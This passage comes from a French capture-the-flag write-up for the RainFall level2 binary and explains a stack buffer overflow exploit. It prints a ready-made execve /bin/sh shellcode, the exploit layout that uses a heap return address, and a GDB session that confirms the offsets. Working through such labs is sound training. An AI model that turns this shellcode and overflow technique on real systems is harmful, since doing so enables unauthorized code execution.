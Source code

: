 Nous avons découvert que `strdup()` place systématiquement notre entrée à l'adresse `0x804a008` sur le tas.

## Création de l'Exploit

Avec cette information, nous avons conçu un *exploit* contenant :

1. Un *shellcode* pour lancer un *shell*.
2. Du *padding* (remplissage) pour remplir le *buffer*.
3. Une valeur pour écraser les 4 octets du cadre de pile (*stack frame*) (peut être arbitraire).
4. L'adresse du tas (`0x804a008`) pour écraser l'adresse de retour.

### Récupération du Shellcode

Pour exécuter `/bin/sh`, nous avions besoin d'un *shellcode* qui effectue l'appel système `execve`. Au lieu d'écrire le *shellcode* nous-mêmes, nous avons récupéré un *shellcode* pré-écrit depuis [Shell-Storm](http://shell-storm.org/shellcode/), un dépôt bien connu de *shellcodes*.

Nous avons cherché "Linux/x86 - execve /bin/sh" sur Shell-Storm et trouvé [un *shellcode* compact de 21 octets](https://shell-storm.org/shellcode/files/shellcode-575.html) :

```assembly
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

Ce *shellcode* lance un *shell* en invoquant l'appel système `execve` avec `/bin/sh` comme argument.

### Trouver les Décalages Exacts pour le Débordement

Pour vérifier la disposition exacte du *buffer* et les décalages (*offsets*) requis, nous avons créé un motif de test avec différentes séquences de caractères :

```bash
level2@RainFall:~$ python -c 'print("A"*76 + "B"*4 + "C"*4 + "D"*4)' > /tmp/test2
level2@RainFall:~$ gdb -q ./level2 

(gdb) run < /tmp/test2
Breakpoint 1, 0x0804853e in p () # Point d'arrêt à l'instruction de retour
(gdb) x/s $eax
0x804a008:       'A' <repeats 64 times>, "CCCCAAAAAAAABBBBCCCCDDDD"
(gdb) info frame
Stack level 0, frame at 0xbffff630:
 eip = 0x804853e in p; saved eip 0x43434343
 called by frame at 0xbffff634
 Arglist at 0x42424242, args: 
 Locals at 0x42424242, Previous frame's sp is 0xbffff630
 Saved registers:
  eip at 0xbffff62c
```

Cette session GDB confirme plusieurs informations critiques :

1. L'adresse de retour sauvegardée (EIP) est `0x43434343`, ce qui correspond à "CCCC" en ASCII.
2. Les données du cadre de pile (*stack frame*) sont affichées comme `0x42424242`, ce qui correspond à "BBBB" en ASCII.
3. L'adresse du tas où notre entrée est copiée est systématiquement `0x804a008`.
4. Le *buffer overflow* se produit exactement comme prévu :
    - Les 76 premiers octets remplissent le *buffer*.
    - Les 4 octets suivants écrasent les données du cadre de pile.
    - Les 4 octets suivants écrasent l'adresse de retour.
